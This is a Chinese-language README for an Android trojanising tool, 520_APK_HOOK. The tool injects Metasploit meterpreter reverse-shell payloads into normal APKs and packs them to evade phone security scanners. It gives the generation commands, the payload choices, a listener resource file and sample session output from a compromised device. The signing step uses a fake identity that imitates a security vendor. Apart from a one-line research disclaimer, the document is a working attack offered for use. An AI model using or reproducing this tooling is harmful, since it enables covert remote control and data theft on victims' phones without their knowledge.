


# 520_APK_HOOK


## 介绍


* 将msf生成的payload，注入到一个正常的apk文件中，重新打包后进行加固，bypass手机安全管家的检测。

* 项目地址: [https://github.com/cleverbao/520apkhook](https://github.com/cleverbao/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于原始的msf远控，此版本app在进行远控时，被注入的app可以正常运行，原始msf生成的app程序，只在桌面上有一个图标，点击后没有任何app界面。

* 注入后的app在安装时，手机管家不会有任何安全提示，原始msf生成的app程序，安装时手机管家会有安全警示。


## 重点说明


* 项目目前由于加固脚本问题, 目前只支持单classes.dex文件操作.

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.


## 项目依赖


* 本项目参考以下项目

* [Java层DEX一键加固脚本](https://github.com/yongyecc/apksheller)

* [APK Infector](https://github.com/PushpenderIndia/apkinfector)


## 使用


1. 使用Linux或者macos主机, 安装python3, openjdk8, metasploit-framework.
2. 使用python3生成apk文件, 需要指定msf远控链接的IP和端口.

```sh
➜  ~ cd 520apkhook
➜  520apkhook python3 hook.py --lhost 192.168.0.21 --lport 1433 -n ./base.apk

[*] 创建随机字符串,用来修改msf payload!
[+] 生成成功!

[*] 检查电脑上的开发环境
================================

[:] NOTE : 请确认安装jdk8环境!

[*] 检查 : Jdk版本
javac 1.8.0_282
[+] JDK - OK
......

// --host 指定msf远控的IP
// --lport 指定msf远控端口
// -n 指定被注入的apk文件路径
```

3. 生成中需要指定msf payload类型

```sh
➜  520apkhook python3 hook.py --lhost 192.168.0.21 --lport 1433 -n ./base.apk

[*] 创建随机字符串,用来修改msf payload!
[+] 生成成功!

[*] 检查电脑上的开发环境
================================

[:] NOTE : 请确认安装jdk8环境!

[*] 检查 : Jdk版本
javac 1.8.0_282
[+] JDK - OK

[*] 检查 : msfvenom
[+] msfvenom - OK

   ====================================
   [*] Available Types of Payload
   ====================================
   (1) android/meterpreter/reverse_tcp
   (2) android/meterpreter/reverse_http
   (3) android/meterpreter/reverse_https

[?] 选择msf payload (1/2/3): 1
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10192 bytes
......
```

4. apk签名时需要输入证书的相关信息.

```sh
......
[*] 将加固后的dex文件替换apk中的class dex!
'classes.dex'...
[+] 插入成功 !
[+] app加固完成

[*] 创建app签名文件!
您的名字与姓氏是什么?
 [Unknown]:  zhouhongyi
您的组织单位名称是什么?
 [Unknown]:  360
您的组织名称是什么?
 [Unknown]:  qihu360
您所在的城市或区域名称是什么?
 [Unknown]:  beijing
您所在的省/市/自治区名称是什么?
 [Unknown]:  beijing
该单位的双字母国家/地区代码是什么?
 [Unknown]:  china
CN=zhouhongyi, OU=360, O=qihu360, L=beijing, ST=beijing, C=china是否正确?
 [否]:  y
......
```


5. 在生成apk文件后, 目录下会产生`Final_Infected.apk`和`handler.rc`

```sh
➜  520apkhook ls
Final_Infected.apk base.apk           hook.py            libs
Readme.md          handler.rc         images
```


6. 使用msfconsole加载handler.rc进行服务端监听

```sh
➜  520apkhook msfconsole -r handler.rc
# cowsay++
____________
< metasploit >
------------
      \   ,__,
       \  (oo)____
          (__)    )\
             ||--|| *


      =[ metasploit v6.0.42-dev-b177452c898ad956be8540a40c805bf52310c234]
+ -- --=[ 2124 exploits - 1137 auxiliary - 361 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to
check out the result of hosts and services

[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set payload android/meterpreter/reverse_tcp
payload => android/meterpreter/reverse_tcp
resource (handler.rc)> set LHOST 0.0.0.0
LHOST => 0.0.0.0
resource (handler.rc)> set LPORT 1433
LPORT => 1433
resource (handler.rc)> set exitonsession false
exitonsession => false
resource (handler.rc)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 0.0.0.0:1433
msf6 exploit(multi/handler) >
......
```

7. 将生成的apk文件在安卓手机进行安装, 即可完成对目标的控制


8. 成功后, 可以在msf中进行远程控制

```sh
msf6 exploit(multi/handler) > sessions

Active sessions
===============

 Id  Name  Type                        Information         Connection
 --  ----  ----                        -----------         ----------
 1         meterpreter dalvik/android  u0_a53 @ localhost  192.168.0.21:1433 -> 192.168.0.68:65133 (192.168.16
                                                           4.194)

msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : localhost
OS          : Android 11 - Linux 5.4.61-********+ (armv81)
Meterpreter : dalvik/android
meterpreter > ls
No entries exist in /data/user/0/com.zhangy.vphone/files
meterpreter > app_list
Application List
================

 Name                                Package                               Running  IsSystem
 ----                                -------                               -------  --------
 Android System WebView              com.android.webview                   false    true
 Android 系统                          android                               false    true
 Android动态壁纸                         com.android.wallpaper                 false    true
 Arm Pro                             armadillo.studio                      false    false
 Black Hole                          com.android.galaxy4                   false    true
 Bluetooth MIDI Service              com.android.bluetoothmidiservice      false    true
 Call Log Backup/Restore             com.android.calllogbackup             false    true
 CaptivePortalLogin                  com.android.captiveportallogin        false    true
 HTML 查看程序                           com.android.htmlviewer                false    true
 Intent Filter Verification Service  com.android.statementservice          false    true
 KK谷歌助手                              io.kkzs                               false    true
 LOL GG                              com.hpdjyxsziq.sqmezcbpyf             false    false
 Live Wallpaper Picker               com.android.wallpaper.livepicker      false    true
 MT管理器                               bin.mt.plus                           false    false
 ......
```


## 不同手机安全管家对app安装时检测结果


* 华为



* 小米



* VIVO


